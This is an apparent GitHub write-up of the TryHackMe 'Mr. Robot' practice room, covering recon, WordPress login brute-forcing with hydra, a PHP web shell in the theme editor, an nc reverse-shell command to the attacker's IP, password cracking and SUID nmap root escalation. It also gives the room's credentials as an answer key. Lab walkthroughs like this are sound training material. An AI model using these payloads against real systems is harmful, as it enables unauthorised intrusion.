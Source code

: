 # 🤖 TryHackMe: Mr. Robot

> **Difficulty:** Medium  
> **IP:** `10.10.X.X` (replace with actual THM IP)  
> **Tags:** `Web`, `Enumeration`, `WordPress`, `Privilege Escalation`

---

## 🧭 1. Recon

### 🔍 Nmap Scan

```bash
nmap -sC -sV -oN mrrobot.nmap 10.10.X.X
```

**Result:**
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1
80/tcp open  http    Apache httpd
```

- Apache is running on port 80. Let’s explore it in a browser.

---

## 🌐 2. Web Enumeration

The homepage resembles the Mr. Robot TV show site.

### 📄 Check `robots.txt`

```bash
curl http://10.10.X.X/robots.txt
```

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

- `fsocity.dic`: A wordlist  
- `key-1-of-3.txt`: First flag

```bash
curl http://10.10.X.X/key-1-of-3.txt
```

✅ **Found first flag!**

---

## 🧰 3. Directory Brute Forcing

Use `gobuster` with the discovered wordlist:

```bash
gobuster dir -u http://10.10.X.X -w fsocity.dic -t 50
```

- Discovered: `/wp-login.php` → WordPress login page

---

## 🔑 4. WordPress Login Brute-force

Use `hydra` or `wpscan` to brute-force the credentials:

```bash
hydra -l elliot -P fsocity.dic 10.10.X.X http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid"
```

✅ Credentials found:
- **Username:** elliot  
- **Password:** ER28-0652

Login at: `http://10.10.X.X/wp-login.php`

---

## 🐚 5. Getting a Shell

Go to:  
**Appearance → Theme Editor → 404.php**

Insert a PHP reverse shell:

```php
<?php system($_GET['cmd']); ?>
```

Now trigger the shell:

```bash
curl "http://10.10.X.X/wp-content/themes/twentyfifteen/404.php?cmd=nc -e /bin/bash YOUR-IP 4444"
```

Start listener:

```bash
nc -lvnp 4444
```

✅ **Got reverse shell as `daemon` user**

---

## ⬆️ 6. Privilege Escalation

### 📁 Check for second flag

```bash
find / -name "key-2-of-3.txt" 2>/dev/null
```

Found inside `robot` user’s home but not accessible.

### 🔐 Switch to robot user

Try password reuse or crack using `john`:

```bash
john --wordlist=fsocity.dic password.raw
```

✅ Password cracked: `abcdefghijklmnopqrstuvwxyz`

```bash
su robot
```

✔️ Access granted  
✔️ **Second flag obtained**

---

## 🏁 7. Root Access

### 🔍 Check for SUID binaries:

```bash
find / -perm -4000 2>/dev/null
```

Found: `nmap` with SUID permissions

### 🔓 Exploit using nmap interactive shell:

```bash
nmap --interactive
```

Inside interactive shell:

```bash
!sh
```

✅ **Got root shell**  
✅ **Found `key-3-of-3.txt`**

---

## 🧠 Lessons Learned

- `robots.txt` often leaks useful files
- Custom wordlists can lead to login credentials
- PHP reverse shell injection via theme editor is effective
- Look for SUID binaries for easy privilege escalation

---

## 🏆 Flags

| Flag           | Status |
|----------------|--------|
| key-1-of-3.txt | ✅     |
| key-2-of-3.txt | ✅     |
| key-3-of-3.txt | ✅     |

